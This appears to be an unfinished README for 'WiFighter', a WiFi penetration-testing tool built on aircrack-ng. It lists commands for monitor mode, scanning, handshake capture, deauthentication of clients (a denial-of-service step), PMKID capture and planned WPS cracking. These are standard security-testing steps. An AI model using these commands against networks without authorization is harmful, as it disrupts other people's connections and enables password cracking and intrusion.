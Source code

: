 # WiFighter
Easy-to-use WiFI pen-testing tool for Debian build on aircrack-ng written in python and bash

## Dependecies

```c
apt install -y aircrack-ng hcxdumptool hcxpcapngtool hashcat
```



# WiFi Scan & Select
```python
  import pywifi, scapy
```



# Threat Hunt
```python
  import pywifi, scapy
```



# Attack mode

## 1. Aircrack guide

- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

### Monitor mode

Set interface to monitor
```c
airmon-ng start <INTERFACE>
```

Set interface to managed
```c
airmon-ng stop <INTERFACE>mon
```

### Scan nearby WiFi's

Scan all
```c
airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
airodump-ng --band a <ESSID> <INTERFACE>mon
```

Listen for handshake of specified AP
```c
airodump-ng -c <CHANNEL> -b <BSSID> -w OUTPUT_PATH <INTERFACE>mon
```

### Deauth clients (force handshake)

Deauth all (broadcast)
```c
aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```



## 2. Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

### Installation

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



## 3. Reaver or Bully ??

- Cracking WPS




